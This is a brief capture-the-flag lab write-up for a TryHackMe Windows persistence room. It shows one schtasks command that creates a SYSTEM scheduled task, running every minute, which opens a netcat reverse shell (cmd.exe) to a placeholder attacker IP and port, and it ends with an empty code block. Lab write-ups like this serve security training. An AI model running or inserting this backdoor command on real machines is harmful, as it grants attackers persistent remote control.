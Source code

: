 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Task Scheduler
1. Started this room's machine
2. `schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe <ATTACK MACHINE IP> <PORT NUMBER>" /ru SYSTEM`
```PowerShell
```
